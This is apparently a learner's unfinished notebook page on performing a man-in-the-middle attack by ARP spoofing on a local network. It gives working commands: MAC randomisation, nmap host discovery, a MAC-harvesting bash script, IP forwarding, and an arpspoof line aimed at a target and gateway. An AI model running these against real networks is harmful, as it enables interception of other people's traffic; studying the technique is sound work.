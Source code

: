 # TODO - Man in the Middle with ARP spoofing

Welcome again :D&#x20;

Im actually pleased of myself because Im explaining to me and Im actually understanding something LOL

## Recap

### change the MAC

```
sudo macchanger -r eth0 
```

### reverse DNS request to get all the hostname

and find the target

```bash
nmap -sL 192.168.1.0/24
# -sL     reverse DNS resolution (send no packet to the host, 
                only to the DNS server probably)
```

### scan all your LAN

```bash
#! /bin/bash

echo "change your MAC =D"

ip=$(hostname -I | awk '{print $1}')
ip="${ip##*( )}"
ip_selected=()

if [[ "$ip" == *"$192"* ]]; then
    ip_selected=192.168.0.0/16
elif [[ "$ip" == *"$172"* ]]; then
    ip_selected=172.16.0.0/12
elif [[ "$ip" == *"$10"* ]]; then
    ip_selected=10.0.0.0/8
fi

# echo "$ip_selected"
nmap -sL "$ip_selected" 2>&1 | tee | grep --line-buffered -e \( | awk -Ffor '{print $2}'
```

### check if host is alive

{% embed url="https://security.stackexchange.com/questions/36198/how-to-find-live-hosts-on-my-network" %}

```bash
nmap -sn 192.168.1.68

# -sn     disable port scan
# -sn is the same as -sP (Ping scan)
# this command is not 100% reliable, it is reliable enough though
```

{% embed url="https://unix.stackexchange.com/questions/87935/nmap-sn-scan-or-no-scan" %}

## Get MAC addrs

A script could be useful.

```
./basic_mitm 192.168.1.68 192.168.1.1
```

```
-n     no DNS resolution 
-sP    skip port scan
```

```bash
#!/bin/bash

echo "$1"
echo "$2"

mac1=$(sudo nmap -nsP "$1" | grep MAC | awk -F\  ' { print $3 } ' )
mac2=$(sudo nmap -nsP "$2" | grep MAC | awk -F\  ' { print $3 } ' )

echo "$mac1"
echo "$mac2"
```

## Packet redirect

Now a method is needed to be able to not block the connection of the target host with the router.

<details>

<summary>How can I forward using MAC addrs, or IP?</summary>

* _bridge_ command from iproute2 package
* iptables mac command
* ebtables

</details>

### Let's think

There are 3 actor:

1. `target_host : 192.168.1.65`
2. `mitm_host : 192.168.1.100`
3. `default_gateway : 192.168.1.1`

**After the ARP spoof**:

1. `target_host` send packets to `192.168.1.1` but using `mitm_mac`
2. `mitm_host` get packets from `192.168.1.65` going to `192.168.1.1`
3. so `mitm_host` forwards packets to the `default_gateway`&#x20;
4. the `default_gateway` thinks that `192.168.1.65` is the `mitm_host` because that IP is registered (in his arp table) with the `mitm_mac`
5. so `mitm_host` now receives packets from `192.168.1.1` going to `192.168.1.65`

So, this should work:

```
sysctl -w net.ipv4.ip_forward=1
```

But doesn't.

{% hint style="warning" %}
This because `mitm_host` IP is `192.168.1.100` so every packets coming from `target_host` to IP `192.168.1.65` is rejected by default.\
\
Simply `mitm_host` sees packets going to `192.168.1.65 and says "these are not my packets because I am 192.168.1.100" and then rejects theme.`
{% endhint %}

## [iptables](todo-iptables.md)

{% hint style="info" %}
iptables command has a "mac" section that could be useful
{% endhint %}

## ARP spoofing

```

sudo arpspoof -i eth0 -t 192.168.1.68 -r 192.168.1.1 
```

## Sources

{% embed url="https://www.cyberciti.biz/tips/iptables-mac-address-filtering.html" %}

{% embed url="https://explainshell.com/explain/1/nmap" %}

{% embed url="https://unix4lyfe.org/darkstat" %}
